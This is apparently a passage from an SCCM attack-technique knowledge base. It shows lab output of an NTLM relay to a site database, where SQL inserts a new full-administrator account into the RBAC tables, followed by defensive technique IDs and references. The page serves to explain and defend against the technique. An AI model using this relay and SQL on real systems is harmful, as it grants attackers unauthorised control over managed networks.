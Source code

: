 ```
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
[*] SMBD-Thread-5 (process_request_thread): Received connection from 10.10.100.141, attacking target mssql://sql.internal.lab
[*] Authenticating against mssql://sql.internal.lab as LAB/PASSIVE$ SUCCEED
[*] Executing SQL: USE CM_LAB; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x010500000000000515000000010A878E28A377F8F541F39A6D040000,'lab\specter',0,0,'','','','','LAB');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'lab\specter'),'SMS0001R','SMS00004','1');

[*] ENVCHANGE(DATABASE): Old Value: master, New Value: CM_LAB
[*] INFO(SQL): Line 1: Changed database context to 'CM_LAB'.
[*] SMBD-Thread-7 (process_request_thread): Connection from 10.10.100.141 controlled, but there are no more targets left!
```


## Defensive IDs
- [PROTECT01](../../defense-techniques/PROTECT01/protect01-description.md)
- [PROTECT15](../../defense-techniques/PROTECT15/protect15-description.md)
- [PROTECT21](../../defense-techniques/PROTECT21/protect21-description.md)
- [DETECT01](../../defense-techniques/DETECT01/detect01-description.md)



## References
Chris Thompson, SCCM Site Takeover via Automatic Client Push Installation, https://posts.specterops.io/sccm-site-takeover-via-automatic-client-push-installation-f567ec80d5b1
Microsoft, Site server high availability in Configuration Manager, https://learn.microsoft.com/en-us/mem/configmgr/core/servers/deploy/configure/site-server-high-availability